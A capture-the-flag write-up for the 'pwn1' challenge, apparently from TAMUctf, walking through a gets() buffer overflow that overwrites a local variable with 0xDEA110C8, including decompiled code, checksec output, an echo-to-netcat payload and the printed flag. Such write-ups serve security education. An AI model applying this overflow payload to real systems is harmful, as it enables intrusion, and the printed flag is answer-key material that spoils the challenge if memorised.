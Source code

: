~~~ java
  if ( strcmp(&s, "To seek the Holy Grail.\n") )
  {
    puts("I don't know that! Auuuuuuuugh!");
    exit(0);
  }
  puts("What... is my secret?");
  gets(&s);
  if ( v5 == 0xDEA110C8 )
    print_flag();
  else
    puts("I don't know that! Auuuuuuuugh!");
  return 0;
}
~~~ 

So the binary will read 3 inputs from us and expects the "right" answer for each question.
The two first are pretty simple as it's just the good string to give.

The last check is about v5. It should be egal to `0xDEA110C8`.
Once all asnwers are corrects, it will execute the print_flag function.


As the function `gets` is vulnerable to buffer overflow we will make one to overwrite the value of v5.
Checking the file security we see that there is no canary, a bufferoverflow attack is indeed possible.

~~~ bash
checksec -f pwn1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified   Fortifiable  FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   77 Symbols      No      0  4pwn1
~~~ 
So the goal is to fill the buffer and then overwrite the value of v5.
As we can see the len of the buffer is 43 bytes.

The payload will then looks like [43bytes of junk][0xDEA110C8].
We then have to add the answers of the 2 previous questions -> [answer1][answer2][43bytes of junk][0xDEA110C8]

Let's run it.

~~~ bash
echo -e "Sir Lancelot of Camelot\nTo seek the Holy Grail.\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc8\x10\xa1\xde" | nc pwn.tamuctf.com 4321                                 139 ↵
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
gigem{34sy_CC428ECD75A0D392}
~~~ 
